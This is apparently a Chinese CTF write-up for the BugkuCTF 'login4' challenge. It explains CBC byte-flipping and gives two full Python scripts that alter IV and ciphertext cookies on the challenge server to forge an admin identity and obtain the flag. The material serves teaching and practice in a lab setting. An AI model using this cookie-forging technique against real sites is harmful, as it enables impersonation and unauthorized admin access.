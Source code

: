 ```yaml
---
layout: post
title: 'bugku login4'
subtitle: 'CBC字节翻转攻击'
tags: 安全 cryptography ctf web
---
```


# 0x00

[BugkuCTF login4](https://ctf.bugku.com/challenges#login4)

先来看一下CBC的加密方式：![](https://www.rz6.tech/images/Sat-Nov-17-23:26:35-2018_611064.jpg)

可以看到在加密前明文会与初始化向量IV（或是前一个密文分组）进行异或运算，这样在解密时就可以通过修改初始化向量（或是前一个密文分组）来影响到原有的明文信息，这就是CBC字节翻转攻击

本题从截取的请求中可以看到，可以控制初始化向量IV和密文信息，通过控制返回的密文信息而控制自己的身份，当身份为admin时，可以获取到flag。这里就可以用CBC字节翻转攻击来修改自己身份为admin，获取flag。

![](/assets/img/md/2018-12-01-132334333344.png)

# 0x01 

以`admIn`登录，这样让前一个分组的密文（或是初始化向量IV）中`I`对应的那一位与`32`进行异或运算，在经过服务端解密后就可以得到`admin`了

目前还不知道是哪一位会对应到字母`I`，而且如果是密文分组中的某一位对应的话，直接修改密文分组会导致该分组在服务端解密后的数据混乱，不过我们目前可以控制*初始化向量IV*，所以可以先遍历修改一下这个初始化向量IV（在base64解码后可以看到是16位），让每一位与32进行异或，如果刚好修改到`I`对应的那一位就直接获取到了flag

```python
session = requests.session()

url = "http://123.206.31.85:49168/index.php"
proxies = {
    'http': '127.0.0.1:8080'
}
param = {
    'username': 'admIn',
    'password': '',
    'submit': 'Login'
}


def replace_cookie(_key, _cookie, _i=0, _v=None):
    """
    设置cookie中的 iv 或 cipher
    :param _key: 键
    :param _cookie: cookie
    :param _i: 设置第几个（设置了 _v 后则忽略这个参数）
    :param _v: 直接设置值（为None时忽略）
    :return:
    """
    if _v:
        _cookie.set(_key, _v, path="/", domain="123.206.31.85")
        return

    _value = parse.unquote(_cookie[_key])
    _value = base64.b64decode(_value)
    _arr = bytearray(_value)
    _arr[_i] = _arr[_i] ^ 32        # 大小写转换

    _cookie.set(_key, parse.quote(base64.b64encode(bytes(_arr))), path="/", domain="123.206.31.85")


def deal_send(_key, _i):
    """
    让 iv 或是 cipher 的第 _i 个字节进行变换后发送请求
    :param _key: iv / cipher
    :param _i: 调整第 _i 个字节
    :return: 服务器返回的数据
    """
    session.cookies.clear()
    session.post(url, param, proxies=proxies) 	# 由于同一个cookie用几次就失效了，所以每次循环都重新登录一下
    replace_cookie(_key, session.cookies, _i)
    _rest = session.get(url, proxies=proxies, headers={'flag': "{}->{}".format(_key, _i)})  # 这个headers头用来标识一下，方便burp中查看
    if 'flag' in _rest.text and 'Only admin can see flag' not in _rest.text:                # flag
        print(_i)
        print(session.cookies)
        print(_rest.text)
        print()
    return _rest.text


def step1():
    for i in range(16):
        deal_send('iv', i)

if __name__ == '__main__':
    step1()
```

在运行完之后可以看到并没有任何输出，说明只修改初始化向量是没用的，不过从返回信息中可以看到一点有价值的信息：

![value](/assets/img/md/2018-12-09-3223637348.jpg)

可以看到一些返回中提示序列化失败，并返回了base64编码后的数据

在对这些数据解码后可以看到我们的密文实际对应的明文信息应该是：

```json
a:2:{s:8:"username";s:5:"admIn";s:8:"password";s:0:"";}
```

现在只要让明文的第29位与32进行异或即可把明文修改为我们想要的admin身份，初始化向量IV只有16位，所以需要修改第一个密文分组的第13位即可改变登录身份。不过在修改了第一个密文分组后，会导致第一个明文分组解密异常，所以还需要控制初始化向量，让他对错误的明文分组进行一些调整，成为正确的明文才可以被服务端正确的解析。

而现在已经有了正确的明文格式：

`a:2:{s:8:"username";s:5:"admIn";s:8:"password";s:0:"";}`，所以大概思路如下：

- 以 admIn 身份登陆，获取到*初始化向量IV*和*密文信息*
- 修改第一个*密文分组*的第13位（与32进行异或，从而改变第二个分组明文中对应字母的大小写）
- 根据服务端返回的错误信息来调整*初始化向量IV*，使第一个分组能被正确解析
- 以调整后的*初始化向量IV*和第二步的密文信息伪造admin身份向服务端发送请求，获取flag

承接着上面的代码：

```python
plain_text = b'a:2:{s:8:"username";s:5:"admIn";s:8:"password";s:0:"";}'
plain_group = re.findall(br'.{16}', plain_text)    # 16个一组进行分组

def xor_bytes(b1, b2):
    """
    两个字节串进行异或操作
    :param b1: 字节串1
    :param b2: 字节串2
    :return: 返回异或后的字节串
    """
    assert isinstance(b1, bytes) and isinstance(b2, bytes) and len(b1) == len(b2)
    ret = bytearray()
    for i in range(len(b1)):
        ret.append(b1[i] ^ b2[i])
    return bytes(ret)


def gen_iv(raw_iv, tips_text, _i=0):
    """
    生成新的iv（修改了当前分组的密文后，在影响下一个分组的明文的同时也会导致当前的分组解密失败，
    所以需要修改前一个分组的密文（或者是初始化向量）
    :param raw_iv: 上一个分组的密文（或初始化向量）
    :param tips_text: 序列化失败返回的明文信息
    :param _i: 第几个分组（0,1,2...)，默认下标为0的分组
    :return: 返回调整后的iv
    """
    assert isinstance(raw_iv, str) and isinstance(tips_text, str)
    raw_iv = base64.b64decode(parse.unquote(raw_iv))
    wrong_text = base64.b64decode(tips_text)    # 解密出错误的明文
    wrong_group = re.findall(br'.{16}', wrong_text)

    _ = xor_bytes(wrong_group[_i], plain_group[_i])   # 错误的明文与正常的明文进行异或

    return parse.quote(base64.b64encode(xor_bytes(raw_iv, _)))


def step2():
    text = deal_send('cipher', 12)
    tips_text = re.findall(r"base64_decode\('(.*?)'\)", text)   # 取出返回的错误明文信息
    assert len(tips_text) > 0
    tips_text = tips_text[0]

    correct_iv = gen_iv(session.cookies['iv'], tips_text)
    replace_cookie('iv', session.cookies, _v=correct_iv)    # 设置iv
    rest = session.get(url, proxies=proxies)
    print(rest.text)


if __name__ == '__main__':
    # step1()
    step2()
```

运行后成功获取到flag

